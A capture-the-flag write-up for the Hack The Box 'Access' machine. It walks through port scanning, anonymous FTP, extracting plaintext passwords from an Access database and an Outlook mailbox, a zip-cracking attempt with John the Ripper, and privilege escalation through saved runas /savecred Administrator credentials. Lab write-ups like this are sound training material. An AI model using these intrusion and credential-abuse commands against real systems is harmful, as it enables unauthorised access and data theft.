# Writeup for Hackthebox/Access
Access - 10.10.10.98

## Initial Enumeration
As usual, we will start off by enumerating open ports and services on the box using ```nmap```.

```bash
# -sV: perform a service scan to attempt to determine versions of services on the box
# -Pn: do not ping the box first
# -O: Attempt OS detection
# 10.10.10.98 is our target

root@kali:~/ctf/hackthebox/access# nmap -sV -O -Pn 10.10.10.98
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-05 16:09 EST
Nmap scan report for 10.10.10.98
Host is up (0.034s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
```

We will start by looking at the web service because we have directory enumeration running in the background while we focus on other things.

### HTTP Enumeration
Browsing to the target on port 80, we have a rather simple page:


Trying to access robots.txt (http://10.10.10.98/robots.txt) resulted in a 404, so we will use ```gobuster``` to see if we can enumerate the site further:
```bash
# -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt: The wordlist we want to use
# -u http://10.10.10.98/: The target site

gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.98/

# This did not end up yielding anything.
```

### FTP Enumeration

While that goes in the background, we will take a look at the FTP site.
```bash
ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
```
Anonymous login is enabled on the site, and we can see two folders: Backups and Engineer.

There is only one file in the Backups directory: backup.mdb.  The mdb extension suggests that this is a Microsoft Access database.  Fortunately, there are tools in Linux that will allow us to read the database.  When you download it, make sure you put FTP in binary mode since Access databases are binary files.  To do this, use the ```binary``` command.  If you do not, the file you download will be corrupt and you will not be able to work with it.

```bash
ftp> binary
200 Type set to I.
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
5652480 bytes received in 4.80 secs (1.1228 MB/s)
```

In the Engineer folder, there is only one file: ```Access Control.zip```.

We will download this one as well.

When we try to unzip ```Access Control.zip```, we get an error about an unsupported compression method:


It turns out that the file is encrypted in a way that ```unzip``` does not understand, so we can use ```7zip```.

```bash
# The e command extracts the archive.  We are not missing a dash ( - )
7z e "Access Control.zip"
```

Unfortunately, extracting the file in the archive requires a password.  I used zip2john to convert the zip into something that John the Ripper can work with and then running the RockYou wordlist against it, but the password is not in the RockYou list.  Here are the commands in case you are curious:
```bash
zip2john "Access Control.zip" > access_control.zip.john
john --wordlist=/usr/share/wordlists/rockyou.txt access_control.zip.john
```
The version of john that ships with Kali as of this writing (January 2019) gave an error when processing the file.  I used a version of John that I compiled from [source](https://github.com/magnumripper/JohnTheRipper), and that worked.

## Working with the Access Database

We still have the Access database to look at, and that could provide us with some clues.  We can use [mdb-tools](https://github.com/brianb/mdbtools) (included with Kali) to read the database.  First, we will use ```mdb-schema``` to see the schema of the database:

```bash
mdb-schema backup.mdb
```

The output is too long to list or screenshot here, but there is an interesting table called ```auth_user```:


We can then use ```mdb-export``` to dump the contents of the table to the screen as a CSV.

```bash
# Syntax: mdb-export <mdb file> <table name>
mdb-export backup.mdb auth_user
```


It looks like the engineer user has a password of ```access4u@security```.

It is not clear what this password belongs to, but it would not hurt to try it against the ```Access Control.zip``` file we found in the engineer folder before.  Since the file was in the engineer folder, and this password is related to the engineer user, it is worth a shot.



There is only one file in the archive: ```Access Control.pst```, an Outlook inbox.  We could use Outlook to open it, but there is a tool in Linux that will convert pst files to mbox which can be read by most e-mail programs or viewed in a text editor.  That tool is ```readpst```:
```bash
readpst "Access Control.pst"
```
This creates the corresponding mbox file (```Access Control.mbox```).  We can ```cat``` it to the screen:


It looks like we have the credentials for a "security" account (```4Cc3ssC0ntr0ller```).  There is still that telnet service we have not looked at.  Perhaps these credentials will work with that.

## Initial Shell on Target and the User Flag

Let's give it a shot:
```bash
telnet 10.10.10.98
```


Looks like it worked!  Awesome!  With a little bit of poking around, we find the user flag on the security user's desktop:


## More Enumeration and Root Flag
Enumeration is a continuous process.  Let's see what we can find if we poke around a bit.

Let's see what groups this user is in:
```
C:\Users\security>whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID                                        Attributes                                        
====================================== ================ ========================================== ==================================================
Everyone                               Well-known group S-1-1-0                                    Mandatory group, Enabled by default, Enabled group
ACCESS\TelnetClients                   Alias            S-1-5-21-953262931-566350628-63446256-1000 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                               Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4                                    Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10                                Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                Mandatory group, Enabled by default, Enabled group
```
THere is nothing terribly exciting here, so we will poke around the file system.  After doing some enumeration, we come across the Desktop in ```C:\Users\Public```.  It is hidden so we had to use ```dir /a```:



There is one file in here: a shortcut (```ZKAccess3.5 Security System.lnk```).  We can use type to see what it points to:


There is an interesting tidbit in here:
```
runas.exe��:1��:1�*Yrunas.exeL-K��E�C:\Windows\System32\runas.exe#..\..\..\Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"
```
This shortcut uses the runas command<sup>[1]</sup>.  The command here runs the Access.exe program as Administrator using saved credentials (the ```/savecred``` switch).  We can check if our account has those credentials as well with ```cmdkey```:
```
cmdkey /list
```


Looks like we have Administrator credentials saved on this account as well.  I struggled with utilizing this for a bit.  The ```runas``` command will not output anything, and we cannot use it to spawn ```cmd.exe``` running as Administrator.  We could probably find a way to spawn a reverse shell, but I opted to keep it simple for this.  We can redirect output to files.

Let's get a directory listing of the Administrator's directory:
```
# dir is built in to cmd.exe, so to execute it, we have to execute cmd.exe and use the /c switch to tell it to run a command.  We have
# to escape quotes
# dir /s does a recursive directory listing
C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c \"dir /s C:\Users\Administrator\" > C:\users\security\a.txt
```

We can see the root flag on the Administrator's desktop:


We can use a similar command to get the root flag:

```
C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c \"type C:\Users\Administrator\Desktop\root.txt\" > C:\users\security\a.txt"
```


## Tools and References
### Tools
  * [mdb-tools](https://github.com/brianb/mdbtools)
  * [readpst](https://linux.die.net/man/1/readpst)
  
### References
[1]: https://ss64.com/nt/runas.html "Runas - Run under a different user account - Windows CMD - SS64.com"

  * [<sup>1</sup> runas syntax](https://ss64.com/nt/runas.html)
